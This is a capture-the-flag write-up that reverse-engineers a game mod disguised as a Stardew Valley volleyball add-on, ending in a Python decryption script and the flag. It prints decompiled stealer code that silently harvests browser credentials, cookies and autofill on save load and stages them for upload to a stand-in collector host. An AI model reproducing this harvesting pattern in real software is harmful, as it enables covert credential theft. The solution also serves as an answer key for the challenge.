


# Stardew Volley! - GCTF 2026

Solved by `adrianchx`

## Introduction

Stardew Volley! is a reverse engineering challenge that presents itself as an innocent Stardew Valley mod. We're given a zip file `StardewVolley.zip` containing a `.dll`, a manifest, an asset file called `volley.dat`, and a folder that mimics a Chromium user-data directory.

The description frames it as a modder looking for testers, but when we look at the file structure, something is off as the 'mod' is trying to ship a browser-fixture/User Data/Default/ directory containing Cookies, Login Data, Web Data, and Local State. That's a **browser credential stealer** dressed as a game mod.

*Disclaimer: This is my first time solving a RE challenge so quite a bit of this solve was done with the help of AI (Deepseek).*

## Initial Recon

As mentioned, when extracting the zip we get a couple of interesting files and folders.



First, we run `file` on the the `.dll`, `.dat` and `.png` files.

```bash
file StardewVolley.dll
file volley.dat
file volleyball.png
```

Which gave us the output:

```bash
StardewVolley.dll: PE32 executable for MS Windows 4.00 (DLL), Intel i386 Mono/.Net assembly, 3 sections
volley.dat: data
volleyball.png: PNG image data, 16 x 16, 8-bit/color RGBA, non-interlaced
```

The output tells us that the `.dll` is a `.NET` assembly (`.dll` can be different types not just `.NET` like Rust or Go) that means it compiles to IL (Intermediate Language), which decompiles almost losslessly back to C#. The `volley.dat` is reported as generic "data", meaning it's a custom format defined entirely by the code that reads it. 
`volleyball.png` is just a texture with nothing hidden in it.

Now we check `manifest.json`:

```json
{
  "Name": "Stardew Volley",
  "Author": "171k",
  "Version": "1.2.7",
  "Description": "Adds a volleyball to the valley with a simple bounce interaction.",
  "UniqueID": "171k.StardewVolley",
  "EntryDll": "StardewVolley.dll",
  "MinimumApiVersion": "4.5.2",
  "UpdateKeys": []
}
```

Two things to note here, the `UniqueID` is `171k.StardewVolley`, and the `author` is `171k`. We keep this information for later.

Then, we run a quick strings on the DLL to get a feel for what's inside:

```bash
strings -n 6 StardewVolley.dll
```

Interesting strings include class names like `BrowserHarvestService`, `RallyCodec`, `SessionMixer`, `VolleyIdentity`, and the URL fragment `collector.stardewvolley.invalid`. These are already telling as a "browser harvest" and a C2-style endpoint aren't things a volleyball mod should have.

Next, we run `xxd` on `volley.dat`: The file begins with the ASCII bytes SVL1 which is a custom file signature, marking this as a proprietary format.



## Reversing/Decompiling

As we know, `.NET` assemblies can be decompiled back to near-original C# source. Thus, we use [ILSpy](https://github.com/icsharpcode/ilspy) to decompile `StardewVolley.dll`.

The resulting output we save in the folder [`/StardewVolley-decompiled`](StardewVolley-decompiled/)

```text
StardewVolley_decompiled/
├── StardewVolley.csproj
└── StardewVolley/
    ├── ModEntry.cs
    ├── TransmissionQueue.cs
    ├── VolleySyncService.cs
    └── Internal/
        ├── BrowserHarvestService.cs
        ├── ChromiumProfileScanner.cs
        ├── BrowserVault.cs
        ├── RallyCodec.cs
        ├── SessionMixer.cs
        ├── VolleyIdentity.cs
        ├── BounceMotion.cs
        ├── ProtocolRules.cs
        ├── VolleyStateCache.cs
        └── ...
```

Before opening any `.cs` file, we read `StardewVolley.csproj`. It's an MSBuild manifest that declares what libraries the project compiles against — which is essentially a capability profile of the malware:

```xml
<Reference Include="StardewModdingAPI" />
<Reference Include="Stardew Valley" />
<Reference Include="System.Security.Cryptography.Algorithms" />
<Reference Include="System.Security.Cryptography.Primitives" />
<Reference Include="System.Text.Json" />
...
<AllowUnsafeBlocks>True</AllowUnsafeBlocks>
```

Three particular things stand out:

- `System.Security.Cryptography.Algorithms` and `.Primitives` → the project does cryptography (AES, hashing, etc.).
- `System.Text.Json` → it serializes/deserializes JSON.
- `AllowUnsafeBlocks=True` → it uses raw pointers or low-level buffer manipulation.

Combined with the class names (from `strings`) we saw, this is enough to characterize the mod: it reads browser data, packages it as JSON, encrypts it, and stages it for exfiltration.

Taking a look at the code:

`ModEntry.cs`

```csharp
private void OnSaveLoaded(object? sender, SaveLoadedEventArgs e)
{
    // ...
    try {
        new VolleySyncService(Helper.DirectoryPath, ModManifest.UniqueID, ...)
            .Initialize(session);
    } catch { ... }

    try {
        new BrowserHarvestService(Helper.DirectoryPath).Initialize();
        Monitor.Log("Browser cache staged locally.", LogLevel.Info);
    } catch { ... }
}
```

The mod registers a `SaveLoaded` event handler, and on save load it silently calls `BrowserHarvestService.Initialize()`. The log message says "staged locally" — that's the author telling you it writes to disk rather than exfiltrating over the network.

Note the argument `ModManifest.UniqueID` — this is passed to `VolleySyncService`, which will eventually feed into the encryption key derivation. The manifest says `171k.StardewVolley`.

Looking at `BrowserHarvestService.cs`:

```csharp
public HarvestEnvelope BuildHarvestBundle()
{
    BrowserProfile[] profiles = new ChromiumProfileScanner(vault).DiscoverProfiles();
    ArtifactCollector collector = new ArtifactCollector(vault);
    return new HarvestEnvelope(profiles,
        collector.CollectCredentials(),
        collector.CollectCookies(),
        collector.CollectAutofill());
}

public string ResolveEndpoint()
{
    return Encoding.ASCII.GetString(Convert.FromBase64String(
        "Y29sbGVjdG9yLnN0YXJkZXd2b2xsZXkuaW52YWxpZA=="));
}

public byte[] BuildUploadRequest(HarvestEnvelope bundle)
{
    return JsonSerializer.SerializeToUtf8Bytes(new {
        Endpoint = this.ResolveEndpoint(),
        Protocol = "SVB/1",
        Bundle   = bundle
    });
}

public void Initialize()
{
    this.queue.QueueBrowserTransmission(this.BuildUploadRequest(this.BuildHarvestBundle()));
}
```

The base64 endpoint decodes to `collector.stardewvolley.invalid`. The TLD `.invalid` is reserved by IANA, meaning it can never resolve. So the "exfiltration" is deliberately non-functional; the payload is staged to disk for the challenge.

With the browser end of things tied up, we continue to `RallyCodec.cs` to get the custom frame format.

```csharp
public static void Initialize(string directory, string uniqueId)
{
    byte[] array = SessionMixer.Compose(uniqueId);
    try
    {
        new VolleyStateCache(directory).Refresh(array);
    }
    finally
    {
        CryptographicOperations.ZeroMemory(array);
    }
}

public static byte[] ReadFrame(byte[] payload, byte[] key)
{
    if (payload.Length < 32 || payload.Length > 4096 ||
        !payload.AsSpan(0, Magic.Length).SequenceEqual(Magic))
        throw new InvalidDataException("Unsupported volley payload format.");

    byte[] array = new byte[payload.Length - 32];
    using AesGcm aesGcm = new AesGcm(key);
    aesGcm.Decrypt(payload.AsSpan(4, 12),
                   payload.AsSpan(32),
                   payload.AsSpan(16, 16),
                   array,
                   Magic);
    return array;
}

static RallyCodec() { Magic = Encoding.ASCII.GetBytes("SVL1"); }
```

Putting this into Deepseek we get:

```text
offset 0   4  bytes  Magic "SVL1"      (marker + AAD)
offset 4   12 bytes  nonce
offset 16  16 bytes  tag
offset 32  N  bytes  ciphertext
```

Where the `Magic` bytes are passed to AesGcm.Decrypt as the **Associated Authenticated Data** — so they're cryptographically bound to the ciphertext. Changing them breaks authentication.

`SessionMixer.cs` (key derivation)

```csharp
public static byte[] Compose(string uniqueId)
{
    byte[] bytes = Encoding.UTF8.GetBytes(VolleyIdentity.FormatContext(uniqueId));
    byte[] rallyProfile = BounceMotion.GetRallyProfile();
    byte[] array = Enumerable.Concat(
        second: ProtocolRules.Normalize(),
        first: bytes.Concat(new byte[1]).Concat(rallyProfile).Concat(new byte[1])
    ).ToArray();
    return SHA256.HashData(array);
}
``` 

`key = SHA256( context || 0x00 || rallyProfile || 0x00 || normalize() )`

Since every ingredient except `context` (derived from `uniqueId`) is hardcoded. If we know the uid, we know the key.

## Getting the key

`VolleyIdentity.cs`

```csharp
public static string FormatContext(string uniqueId)
{
    return uniqueId + "\nVolleyball";
}
```

From this, we now know `context = uniqueId + "\nVolleyball"`.

To get `rallyProfile` we look at `BounceMotion.cs`:

```csharp
private static readonly byte[] BounceProfile =
    { 0, 18, 37, 58, 72, 65, 48, 29, 12, 4, 16, 33, 52, 61, 43, 21 };

public static byte[] GetRallyProfile()
{
    return new int[6] { 2, 7, 11, 14, 5, 9 }
        .Select((index, step) => (byte)(BounceProfile[index] ^ (49 + step * 7)))
        .ToArray();
}
```

Putting this in Deepseek gives us `rallyProfile = 14 25 1E 6D 0C 50`.

And for `normalize()` we use `ProtocolRules.cs`:

```csharp
internal const int Major = 1;
internal const int Minor = 4;
public static string Label => $"SVP/{Major}.{Minor}";   // "SVP/1.4"

public static byte[] Normalize()
{
    byte[] bytes = Encoding.ASCII.GetBytes(Label);
    for (int i = 0; i < bytes.Length; i++)
        bytes[i] = (byte)(bytes[i] ^ 0x14 ^ i);
    return bytes;
}
```

And again, we use Deepseek to get `So normalize() = 47 43 46 38 21 3F 26`.

By using the previous information obtained, we build the key and attempt to decrypt `volley.dat` which is the assumed payload.

`solve.py`

```py
#!/usr/bin/env python3
import hashlib, os
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

# --- Key derivation (SessionMixer.Compose in C#) ---
uid   = "Razlan.StardewVolley"
ctx   = (uid + "\nVolleyball").encode()
rally = bytes.fromhex("14251e6d0c50")
norm  = bytes.fromhex("47434638213f26")
key   = hashlib.sha256(ctx + b"\x00" + rally + b"\x00" + norm).digest()

# --- Load and slice volley.dat (RallyCodec.ReadFrame) ---
here  = os.path.dirname(os.path.abspath(__file__))
data  = open(os.path.join(here, "StardewVolley\\assets\\volley.dat"), "rb").read()
assert data[:4] == b"SVL1", "not an SVL1 frame"

nonce = data[4:16]
tag   = data[16:32]
ct    = data[32:]

# --- AES-GCM decrypt with AAD = "SVL1" ---
pt = AESGCM(key).decrypt(nonce, ct + tag, b"SVL1")
print(pt.decode())
```

> `171k.StardewVolley` was tried as the first guess for the uid, it returned a `cryptography.exceptions.InvalidTag` error, which meant the algorithm is right, but the key is wrong.\
> Going back in the files, `Razlan.StardewVolley_Volleyball` was mentioned in `ModEntry.cs`, which turned out to be the correct key.\
> The `volley.dat` file was baked at build time using `Razlan.StardewVolley` as the uid — which was the author's original internal name. The published `manifest.json` declares the uid as `171k.StardewVolley`, but the encrypted file was never regenerated to match. The leftover item ID `Razlan.StardewVolley_Volleyball` in `ModEntry.cs` was the clue that leaked the correct uid.\
> *This is a realistic malware pattern: the payload is bound to a value that gets renamed later, and mismatches like this are the kind of thing that trips up real-world samples too.* *(Source: Deepseek)*

`gctf26{ihadtolearnstardewvalleymoddingin2daystocreatethischallenge}`